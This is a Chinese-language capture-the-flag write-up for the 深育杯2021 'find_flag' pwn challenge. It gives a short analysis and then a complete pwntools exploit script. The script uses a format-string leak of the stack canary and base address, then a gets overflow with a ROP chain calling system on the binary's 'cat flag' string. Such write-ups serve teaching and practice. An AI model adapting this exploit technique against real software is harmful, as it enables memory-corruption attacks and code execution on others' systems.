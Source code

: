 ```yaml
---
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 


title: 深育杯2021-find_flag-wp
date: 2023-06-20 20:27:23
tags:
- CTF
- pwn
- stack
- 深育杯2021
- nssctf
- str_format
- canary
categories:
- pwn-wp
---
```


## 0x1 分析

* 保护全开
* gets ---> printf ---> gets
* 明显栈溢出，首先想到填满然后泄露canary，但是gets会自动将\n替换为\0
* 应用格式化字符串漏洞泄露canary和随机化基地址
* system函数已在plt中
* 有cat flag字符串

![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/20/深育杯2021-find-flag-wp/0x1.png?raw=true)  

## 0x2 exp

1. 第一个gets，格式化字符串泄露canary和base 
2. 第二个gets，ROP

![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/20/深育杯2021-find-flag-wp/0x2.png?raw=true)  

```python
from pwn import *
import sys
pty = process.PTY
context(os='linux', log_level='debug')

mode = sys.argv[1] if len(sys.argv) > 1 else ''
if mode == 'r':
    proc = remote("node4.anna.nssctf.cn", 28372)
else:
    proc = process("./bin", stdin=pty, stdout=pty)

belf = ELF("./bin")


def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(x=0xfffffff): return proc.recv(x)
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

gscript = '''
    b main
    fin
    fin
    fin
    fin
    ni 80
'''
if mode == 'd':
    gdb.attach(proc, gdbscript=gscript)

# 格式化字符串泄露 canary和随机化base
sla(b'name? ', b'%p '*0x13)

ru(b', ')
t = ru(b'!\n').decode().split(' ')
print(t)

canary = int(t[-4], 16)
base = int(t[-2], 16)-0x146f
catflag_addr = base+0x2004
system_plt = base+belf.plt['system']
rdi_ret = base+0x00000000000014e3
ret = base+0x000000000000101a


ls("canary: "+hex(canary))
ls("catflag_addr: "+hex(catflag_addr))

# ROP
sl(b'h'*0x38 + p64(canary)+b'h'*8+p64(ret) +
    p64(rdi_ret)+p64(catflag_addr)+p64(system_plt))

pi()
pause()

```
